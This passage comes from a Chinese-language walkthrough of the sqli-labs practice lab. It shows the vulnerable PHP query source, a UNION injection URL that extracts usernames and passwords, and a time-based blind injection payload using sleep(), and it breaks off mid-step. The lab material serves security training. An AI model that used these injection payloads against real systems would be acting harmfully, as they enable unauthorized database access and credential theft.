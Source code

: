   让AI将ASCII码值转化为字符并排序得到第一个表名为emails

- 按照相同的方法我们依次爆破出表名emails、referers、uagents、users 发现存储敏感信息的users表

- 爆破users表的第一个列名

  ```
  /sqlilabs/Less-1/
  ?id=-1' union select 1,2,group_concat(id,'-',username,'-','password') from users --+
  ```

  同爆破表名流程相同这里不赘述

  得到列名为id、username、password

### Less-9 

#### 1. 源码分析

```
	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	echo 'You are in...........';
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
```

没有任何的回显，也不存在报错注入

当查询成功或失败时，网页的反馈都是一样的，布尔盲注也是用不了，这时就可以使用时间盲注了

- id为字符型

  ```
  $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
  $result=mysql_query($sql);
  $row = mysql_fetch_array($result);
  ```

#### 3. 漏洞利用

- ```
  /sqlilabs/Less-9/
  ?id=1' and if(length(database())=8, sleep(5),1) -- s
  ```

  ![](/assets/images/9-1.png)

  ![](/assets/images/9-2.png)

  我们开启网络可以发现该请求耗时5039毫秒，说明sleep()函数执行成功，则我们可以利用这个布尔判断进行sql注入

  使用Burp Suite 更高效

  ![](/assets/images/9-3.png)

  ![](/assets/images/9-4.png)

- 爆破数据库的每一位字符（8字符）
  ```